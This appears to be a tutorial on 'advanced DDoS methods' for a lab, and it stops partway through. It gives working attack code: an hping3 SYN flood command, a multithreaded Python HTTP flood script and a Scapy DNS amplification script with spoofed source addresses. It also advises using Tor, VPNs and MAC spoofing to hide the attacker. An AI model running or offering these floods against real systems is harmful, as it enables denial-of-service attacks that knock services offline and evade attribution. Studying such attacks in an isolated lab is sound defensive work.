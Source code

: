 These advanced methods reflect techniques used by cybersecurity experts (both attackers and defenders) in real-world scenarios. We’ll focus on stealthy, high-impact, and resource-efficient attacks, using tools and custom scripts. All experiments must be conducted in an isolated lab environment (e.g., host-only network in VirtualBox) to avoid legal issues.

## 1. Recap: Your Lab Setup

- **Environment**: Kali Linux VM (attacker), Ubuntu/Metasploitable VM (target), host-only network.
- **Tools**: `hping3`, Scapy, Slowloris, `proxychains`, Tor, `macchanger`.
- **Anonymity**: VPN/Tor for IP hiding, `macchanger` for MAC spoofing, custom DNS (e.g., 1.1.1.1 or local BIND9) to prevent leaks.
- **Safety**: Ensure no traffic leaves your lab (use `tcpdump` or Wireshark to confirm).

## 2. Advanced DDoS Methods

These methods are more sophisticated than basic SYN or UDP floods, leveraging amplification, botnets, or application-layer vulnerabilities.

### a. Multi-Vector Attacks

- **Concept**: Combine multiple attack types (e.g., SYN flood + HTTP flood + DNS amplification) to overwhelm different layers of the target’s stack simultaneously.
- **Real-World Use**: Used by advanced attackers (e.g., Mirai botnet) to bypass mitigation systems like WAFs or IDS.
- **How It Works**:
  - Flood TCP stack with SYN packets.
  - Overload application layer with HTTP requests.
  - Amplify traffic via UDP-based DNS/NTP queries.
- **Tools**:
  - `hping3` for SYN flood.
  - Slowloris for HTTP flood.
  - Scapy for DNS amplification.
- **Lab Implementation**:
  1. **SYN Flood**:
     ```bash
     hping3 -S --flood -p 80 <target_IP>
     ```
  2. **HTTP Flood with Custom Python**:
     ```python
     import requests
     import threading
     target_url = "http://<target_IP>"
     def http_flood():
         while True:
             try:
                 headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"}
                 requests.get(target_url, headers=headers)
                 print("Sent HTTP request")
             except:
                 pass
     for _ in range(50):  # 50 threads
         threading.Thread(target=http_flood).start()
     ```
  3. **DNS Amplification**:
     ```python
     from scapy.all import *
     target_ip = "<target_IP>"
     dns_server = "<lab_dns_server_IP>"
     packet = IP(src=target_ip, dst=dns_server)/UDP(dport=53)/DNS(rd=1, qd=DNSQR(qname="example.com", qtype="ANY"))
     send(packet, loop=1, verbose=0)
     ```
- **Anonymity**:
